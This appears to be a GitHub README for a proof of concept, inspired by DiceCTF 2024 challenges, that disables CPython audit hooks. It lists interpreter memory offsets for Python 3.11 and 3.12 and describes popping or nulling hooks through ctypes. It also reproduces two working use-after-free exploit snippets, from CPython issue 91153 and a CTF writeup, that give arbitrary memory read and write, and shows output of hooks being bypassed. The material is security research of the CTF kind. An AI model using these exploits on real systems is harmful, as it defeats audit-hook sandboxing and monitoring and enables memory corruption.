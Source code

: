 # python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

# Ref
Diligent auditor from *organizers*: <https://ur4ndom.dev/posts/2024-02-11-dicectf-quals-diligent-auditor/>  
IRS writeup from *Maple Bacon*: <https://maplebacon.org/2024/02/dicectf2024-irs/>

## Tested environment
```
Python 3.12.1 (main, Feb  3 2024, 17:23:12) [GCC 13.2.1 20230801] on linux
Python 3.11.7 (main, Jan 29 2024, 16:03:57) [GCC 13.2.1 20230801] on linux
```

## Offsets
```python
# Python audit hook -- under interpreter state
python_offset_311 = 0xe00
python_offset_312 = 0x41448

# native audit hook -- under runtime state
native_offset_311 = -0xe388
native_offset_312 = -0x11df0
```

## audit hook in Python
### Concept
According to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.

### How to use
```bash
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
PyInterpreterState_addr=0x5c50c812fbe8
PyRuntimeState_addr=0x5c50c811d180
PyInterpreterState.audit_hooks_ptr_addr=0x5c50c8170fb0
PyRuntimeState.audit_hooks_ptr_addr=0x5c50c811dd78

audit_hook_ptr_offset=0x41448
1
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## audit hook in C
### Concept
According to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `audit_hooks` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks linkList to `NULL`.

### How to use
```bash
./build.sh
./POC-native-hook.py
./POC-native-hook2.py
```
### Output
```bash
> ./POC-native.py
PyInterpreterState_addr=0x5c7801978be8
PyRuntimeState_addr=0x5c7801966180
PyInterpreterState.audit_hooks_ptr_addr=0x5c78019b9fb0
PyRuntimeState.audit_hooks_ptr_addr=0x5c7801966d78

audit_hook_ptr_offset=-0x11df0
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2-native.py
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## Use issues/91153 to do arbitrary read/write
### Concept
By using <https://github.com/python/cpython/issues/91153>, we can overwrite audit hook without `ctypes`.
### Exploits
```python
# following arbitery reading/writing exploit code from https://github.com/python/cpython/issues/91153#issuecomment-1132117665
by chilaxan
to_write_after_free = bytearray(bytearray.__basicsize__)
class sneaky:
    def __index__(self):
        global to_corrupt_ob_exports, to_uaf
        del to_write_after_free[:]
        to_corrupt_ob_exports = bytearray(bytearray.__basicsize__)
        to_write_after_free.__init__(bytearray.__basicsize__)
        to_uaf = memoryview(to_corrupt_ob_exports)
        return -tuple.__itemsize__

to_write_after_free[sneaky()] = 0
to_corrupt_ob_exports.clear()
occupy_uaf = bytearray()

view_backing = to_uaf.cast('P')
view = occupy_uaf

view_backing[2] = (2 ** (tuple.__itemsize__ * 8) - 1) // 2
memory = memoryview(view)
# end of arbitery writing exploit code

memory[<ADDR>] = <HEX>
```

```python
# following arbitery reading/writing exploit code from https://maplebacon.org/2024/02/dicectf2024-irs/
# wrote and improved by Maple Bacon CTF Team
class UAF:
    def __index__(self):
        global memory
        uaf.clear()
        memory = bytearray()
        uaf.extend([0] * 56)
        return 1

uaf = bytearray(56)
uaf[23] = UAF()
# end of arbitery writing exploit code

memory[<ADDR>] = <HEX>
```
### How to use
```bash
./build.sh
./POC2-issue91153.py
./POC2-issue91153-native.py
```
### Output
```bash
> ./POC2-issue91153.py
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2-issue91153-native.py
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [ ] Find a way to get the `audit_hook` address without using `ctypes`
